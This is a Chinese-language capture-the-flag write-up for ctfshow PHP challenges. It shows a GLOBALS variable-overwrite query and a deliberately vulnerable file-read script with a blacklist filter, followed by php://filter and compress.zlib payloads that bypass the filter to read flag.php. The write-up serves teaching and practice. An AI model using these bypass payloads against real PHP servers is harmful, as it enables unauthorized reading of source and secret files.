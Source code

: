 与*web105*类似，考察变量覆盖

想办法在**v2**中包含有flag.php，然后将**v2**的值赋给**v1**

于是便想到全局变量***GLOBALS***
直接`?v1=ctfshow&v2=GLOBALS`

就可得到flag

+++

### <font color='orange'>web112-web114</font>

+++

#### 112

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
?>
```

<font color='purple'>**is_file**</font>

判断给定文件名是否为一个正常的文件

```php
<?php
var_dump(is_file('a_file.txt')) . "\n";
var_dump(is_file('/usr/bin/')) . "\n";
var_dump(is_file('php://filter/resource=flag.php'))
?>
//bool(true)
//bool(false)
//bool(false)
```

可以用伪协议绕过

本题就是直接读文件，绕过了几个转码的函数，不转码就好了嘛，直接

```php
php://filter/resource=flag.php
or
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
```
